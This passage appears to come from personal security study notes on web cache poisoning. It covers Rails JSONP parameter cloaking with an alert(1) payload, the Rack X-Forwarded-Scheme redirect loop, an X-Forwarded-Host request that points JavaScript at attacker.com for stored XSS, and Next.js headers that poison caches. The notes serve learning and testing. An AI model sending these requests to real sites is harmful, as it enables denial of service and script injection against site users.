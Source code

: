 			HTTP/1.1 200 OK  
			alert(1)//(some-data)
			```
			```
			GET /jsonp?callback=legit HTTP/1.1  
			Host: example.com  
  
			HTTP/1.1 200 OK  
			X-Cache: HIT  
			alert(1)//(some-data)
			```
			However, Rails sees three parameters - callback, utm_content, and callback. It prioritizes the second callback value, giving us full control over it.
		- **==Rack middleware==**: Ruby on Rails applications are often deployed alongside the **Rack middleware**. The Rack code below takes the value of the `x-forwarded-scheme` value and uses it as the scheme of the request. 
			![[Pasted image 20240930175507.png]]
			So sending the `x-forwarded-scheme: http` header would result into a `301 redirect` to the same location. If the response was cached by a CDN, it would cause a redirect loop, inherently denying access to the file.
			```
			GET /?xxx HTTP/2  
			Host: Redacted  
			X-Forwarded-Scheme: http  
			...
			
			HTTP/2 301 Moved Permanently  
			Date: Wed, 19 Jan 2022 17:16:13 GMT  
			Content-Type: text/html  
			Location: Redacted  
			Via: 1.1 vegur  
			Cf-Cache-Status: HIT  
			Age: 3
			```
			If the server also trusted the `X-forwarded-host` header on 301 redirects via `X-Forwarded-Scheme: https`, it allows an attacker to redirect JS files to attacker controlled JavaScript leading to stored XSS.
			```
			GET /static/main.js HTTP/1.1
			Host: redacted.com
			X-Forwarded-Scheme: https
			X-forwarded-host: attacker.com

			HTTP/1.1 301 Moved Permanently
			Location: https://attacker.com/static/main.js
			X-Cache: Hit From Cloudfront
			```
	- **Next.js (Framework)**: 
		- **==CVE-2023-46298==**:  **x-middleware-prefetch** header in `Next.js` applications results in an empty JSON object `{}` as a response. If a CDN or caching system is present, this empty response can potentially be cached —depending on the cache rules configuration— rendering the targeted page **impractical and its content inaccessible**.
		- **==Rsc: 1==**: by sending a request with the `Rsc` header without using a cache-buster that is automatically added by `Next.js` framework to "prevent" cache poisoning, we can poison the cache but - whether this attack succeeds naturally depends on **the CDN and its cache-rules** to follow vary header.
		- **==x-invoke-status==**: overwrites the value of the `statusCode` property of the response object. Then the `/_error` page is returned (_whatever the HTTP code specified_). It is therefore possible to specify any HTTP code to **alter the response code and return the error page** (`/_error`). Generally, CDNs and caching systems are configured not to cache HTTP error codes. However, an attacker can specify the code `200` to align with cache rules and effectively “force” the caching of the error page